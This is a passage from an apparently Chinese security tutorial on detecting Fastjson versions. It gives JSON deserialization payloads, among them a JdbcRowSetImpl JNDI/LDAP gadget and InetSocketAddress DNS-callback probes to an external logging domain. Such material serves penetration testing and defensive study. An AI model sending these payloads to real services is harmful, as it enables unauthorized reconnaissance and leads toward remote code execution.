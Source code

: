 ```plain
{"@type":"com.alibaba.fastjson.JSONObject","a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```

如果下面比上面响应快，说明版本处于`1.2.9`和`1.2.11`之间。

## 2.4 关键版本探测

### 2.4.1 v1.2.24

直接用`2.3`中所提到的延时判断方法即可。

### 2.4.2 v1.2.47

`payload31`：

```plain
{"username":{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"}}}
```

或者：

```plain
[{"@type": "java.lang.Class","val": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"}}]
```

都是可以的：  
[![](assets/1706959415-9610cddbad61f2b8f375fb87e92463ee.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203202-bdf9f7a4-bb7d-1.jpeg)  
[![](assets/1706959415-582feacac80f9293f65076026a5c3622.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203203-be9c40ea-bb7d-1.jpeg)

### 2.4.3 v1.2.68
